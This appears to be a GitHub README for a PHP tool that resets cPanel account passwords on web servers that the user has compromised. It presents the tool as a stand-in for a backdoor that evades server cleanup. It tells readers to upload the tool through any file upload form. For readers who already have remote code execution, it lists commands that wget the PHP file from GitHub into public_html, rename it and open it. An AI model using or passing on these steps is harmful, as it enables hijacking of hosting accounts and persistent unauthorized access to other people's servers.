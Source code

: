 # Cpanel Password Reset Tools

[![Build](https://img.shields.io/badge/Supported_OS-Linux-orange.svg)]()

An easy tool to reset cpanel password when you can't upload backdoor to server. This tool will be useful only if the password reset feature on cpanel is activated.

How to usage? Check this https://www.naufalardhani.com/2018/10/tutorial-reset-password-cpanel-terbaru.html


<p align="center">
  <img src="https://github.com/naufalardhani/cpanel-pass-reset/blob/master/v2.png" width="700" alt="accessibility text">
</p>


# What are the advantages?
- Can be uploaded to the server without bypass
- It will not be deleted automatically by the server

# How to usage
- You can upload this tool via any file upload form and access it!
- If you have a remote code access, you can write command like this 
1. `cd /public_html`
2. ```wget https://raw.githubusercontent.com/naufalardhani/cpanel-pass-reset/master/web-bassed-v2.php```
3. `mv web-bassed-v2.php cp.php`
4. `Access it site.com/cp.php` 
